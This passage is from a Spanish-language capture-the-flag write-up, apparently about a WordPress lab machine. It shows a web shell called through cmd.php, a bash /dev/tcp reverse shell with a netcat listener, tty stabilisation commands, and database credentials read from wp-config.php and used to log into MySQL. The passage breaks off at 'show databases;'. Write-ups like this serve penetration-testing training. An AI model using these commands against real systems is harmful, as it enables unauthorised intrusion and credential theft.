 ```css
http://pressenter.hl/wp-content/uploads/2024/cmd.php?cmd=ls
```

En nuestro caso necesitamos una reverse shell, por lo que de comando pondremos lo siguiente:

```css
bash -c 'bash >%26 /dev/tcp/<IP>/<PORT> 0>%261'
```

pero antes de enviarlo escucharemos con el netcat, en el puerto que queramos (en mi caso el 443):

```css
nc -nlvp 443
```

y ahora si enviamos la reverse shell.

# ESCALADA DE PRIVILEGIOS

Antes de poder continuar y ejecutar algo, primero tendremos que hacer un tratamiento de la tty, para hacerlo debemos ejecutar esta "serie" de comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm", y enter
export TERM=xterm
export SHELL=bash
stty rows 33 columns 128
```

Ahora si, ya estaremos dentro de manera comoda.

### www-data

Ahora tenemos acceso al sistema, pero somos "www-data", por lo que tendremos que buscar una manera de escalar al usuario "enter". Luego de buscar un rato, se me ocurre ver la base de datos mysql, pero como tiene una contraseña, podemos intentar leer el archivo "wp-config.php" donde está instalado el wordpress y veremos una linea en la que esta el usuario y contraseña:

```css
/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );
```

Como vemos, tenemos un usuario y contraseña, por lo que veremos la base de datos para ver si encontramos una contraseña. Para conectarnos simplemente ejecutamos:

```css
mysql -u admin --password=rooteable
```

Una vez dentro ejecutaremos esto:

```css
show databases;
```
